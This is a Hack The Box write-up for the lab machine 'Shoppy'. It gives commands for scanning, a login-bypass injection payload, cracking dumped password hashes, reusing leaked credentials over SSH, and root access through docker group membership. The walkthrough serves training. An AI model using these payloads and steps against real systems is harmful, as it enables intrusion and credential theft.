










# Shoppy


## Scanning

### Network

First, add the virtual DNS :

```bash
echo '10.10.11.180 shoppy.htb'|tee -a /etc/hosts
```

Scan the target host :

```bash
nmap shoppy.htb
```

The output is :&#x20;

<figure><figcaption></figcaption></figure>

Go to http://shoppy.htb and you will have this page :&#x20;

<figure><figcaption></figcaption></figure>

### Web

Try to enumerate subdirectories with `dirbuster` or `wfuzz` :

```bash
wfuzz -u http://shoppy.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt --hc 404
dirbuster -u http://shoppy.htb -l /usr/share/wordlists/dirb/common.txt
```

<figure><figcaption></figcaption></figure>

Scan subdomains.

```bash
wfuzz -u http://stocker.htb \
      -H "Host: FUZZ.shoppy.htb" \
      --hc 301 \
      -w /usr/share/secLists/master/Discovery/DNS/subdomains-top1million-110000.txt
```

Try to go to http://shoppy.htb/admin and you get this result : &#x20;

<figure><figcaption></figcaption></figure>

It seems to be a custom page, try sql injection :&#x20;

<figure><figcaption></figcaption></figure>

It works, you get this page :&#x20;

<figure><figcaption></figcaption></figure>

You can inject code to return all data and download the JSON file :

```sql
'; return '' == '
```

```json
[
    {
        "_id":"62db0e93d6d6a999a66ee67a",
        "username":"admin",
        "password":"23c6877d9e2b564ef8b32c3a23de27b2"
    },
    {
        "_id":"62db0e93d6d6a999a66ee67b",
        "username":"josh",
        "password":"6ebcea65320589ca4f2f1ce039975995"
    }
]
```

There are two hashed passwords : `23c6877d9e2b564ef8b32c3a23de27b2` and `6ebcea65320589ca4f2f1ce039975995`. Crack these hashes with Hashcat :

```bash
echo '23c6877d9e2b564ef8b32c3a23de27b2 6ebcea65320589ca4f2f1ce039975995'|tee hashes.txt
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat --show -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

Hashcat has cracked a hash for josh :

```
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

Thus you have credentials `josh:remembermethisway`.&#x20;

You get the subdomain `mattermost.shoppy.htb`. Thus go to http://mattermost.shoppy.htb.

<figure><figcaption></figcaption></figure>

Try the credentials `josh:remembermethisway`. Go to "Deploy Machine" tab and you will find new credentials.

<figure><figcaption></figcaption></figure>

Try the SSH connection :

```bash
ssh jaeger@shoppy.htb  # password "Sh0ppyBest@pp!"
```

<figure><figcaption></figcaption></figure>

```bash
cat /home/jaeger/user.txt
```

Then, list sudo permissions :

```bash
sudo -l
```

<figure><figcaption></figcaption></figure>

Import file from the target machine to the attacker to decompile it.

```bash
# target
cd /home/deploy/
python3 -m http.server
```

```bash
curl -o password http://shoppt.htb:8000/password-manager
```

Start Ghidra and decompile the file.

<figure><figcaption></figcaption></figure>

Try to execute the following command on the target machine :

```bash
sudo -u deploy /home/deploy/password-manager  # password "Sample"
```

The password is valid, it returns new credentials `deploy:Deploying@pp!`. Try these credentials with SSH :

```bash
ssh deploy@shoppy.htb  # password "Deploying@pp!"
```

It works and the user deploy has the group `docker`.

```bash
docker images
```

There is an existing image named `alpine`. Mount the folder `/root` in on `/mnt` :

```bash
docker run -it -v /root:/mnt alpine
```

Once you're inside of the container, you can find the flag in `/mnt` folder :

```bash
cat /mnt/root.txt
```
